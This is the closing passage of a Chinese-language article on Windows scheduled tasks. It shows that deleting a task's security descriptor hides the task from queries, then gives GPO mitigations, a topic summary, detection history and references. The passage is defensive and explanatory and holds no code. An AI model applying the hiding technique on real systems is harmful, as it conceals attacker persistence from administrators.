删除 SD 后的任务查询：


可见，因为找不到任务的 SD 信息，无法确定用户是否有权限查看该任务信息，导致系统直接判定无权限查看：


## 防御缓解计划任务的恶意利用

1. 配置计划任务只允许运行在认证用户上，不可以通过 SYSTEM 账户运行，可以在 GPO 中进行配置，参考 [Allow server operators to schedule tasks](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/jj852168(v=ws.11)?redirectedfrom=MSDN)
2. 配置只允许 administrators 用户组对进程的优先级进行修改，可以在 GPO 中配置，参考 [Increase scheduling priority](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn221960(v=ws.11)?redirectedfrom=MSDN)

## 总结

本篇介绍了以下知识点：

- 计划任务项的结构信息
- 各种创建计划任务的方式
- 计划任务在磁盘及注册表中的位置
- 计划任务的安全描述符设置方式
- 任务调度时的父子进程分析
- `taskeng.exe` 和 `taskhostw.exe` 的进程参数
- 隐藏计划任务的手法

## 后续

我在 2021 年参与一些隐藏计划任务相关的应急处置事件之后发布 [深入理解 Windows 计划任务及其恶意隐藏方式探究](./深入理解计划任务及其恶意隐藏方式探究.pdf)，之后随着相关利用样本增多，在 2022 年 Defender for Endpoint 新增隐藏计划任务的检测支持（[post](https://www.microsoft.com/en-us/security/blog/2022/04/12/tarrask-malware-uses-scheduled-tasks-for-defense-evasion/)）。

## 引用

- [https://docs.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page)
- [https://docs.microsoft.com/en-us/previous-versions/windows/desktop/automat/bstr](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/automat/bstr)
- [https://docs.microsoft.com/en-us/windows/application-management/svchost-service-refactoring](https://docs.microsoft.com/en-us/windows/application-management/svchost-service-refactoring)
- [https://nasbench.medium.com/a-deep-dive-into-windows-scheduled-tasks-and-the-processes-running-them-218d1eed4cce](https://nasbench.medium.com/a-deep-dive-into-windows-scheduled-tasks-and-the-processes-running-them-218d1eed4cce)
- [https://attack.mitre.org/techniques/T1053/002/](https://attack.mitre.org/techniques/T1053/002/)
- [https://attack.mitre.org/techniques/T1053/005/](https://attack.mitre.org/techniques/T1053/005/)
- [https://github.com/libyal/winreg-kb/blob/master/documentation/Task%20Scheduler%20Keys.asciidoc](https://github.com/libyal/winreg-kb/blob/master/documentation/Task%20Scheduler%20Keys.asciidoc)
- [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/)
- [https://github.com/dahall/TaskScheduler](https://github.com/dahall/TaskScheduler)
- [https://docs.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page)
